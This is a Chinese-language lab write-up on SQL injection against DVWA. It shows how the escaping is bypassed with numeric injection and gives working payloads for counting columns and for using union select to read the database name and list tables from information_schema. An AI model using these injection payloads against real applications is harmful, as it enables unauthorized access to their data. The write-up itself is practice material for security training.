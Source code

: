 

### 代码分析

利用mysql_real_escape_string函数对特殊符号\x00,\n,\r,,’,”,\x1a进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入。



### 漏洞例用

#### 数字型注入

抓包慕改ID为 1 order by 1 # ，成功

![image-20220525090242063](.\Lab7_SQL Injection.assets\image-20220525090242063.png)

![image-20220822170401845](Lab7_SQL Injection.assets/image-20220822170401845.png)



#### 顺便看一下字段数

`1 order by 2 #` 查询成功

![image-20220822170908647](Lab7_SQL Injection.assets/image-20220822170908647.png)

`1 order by 3 #` 查询失败

![image-20220822170935404](Lab7_SQL Injection.assets/image-20220822170935404.png)



**说明表中只有两个字段**



#### 获取当前数据库

```
1 union select 1,database() #
```

![image-20220822171302081](Lab7_SQL Injection.assets/image-20220822171302081.png)

当前的数据库为dvwa



#### 获取数据库中的表

```
1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

![image-20220822171604960](Lab7_SQL Injection.assets/image-20220822171604960.png)

**发现 guestbook, users 两个表**


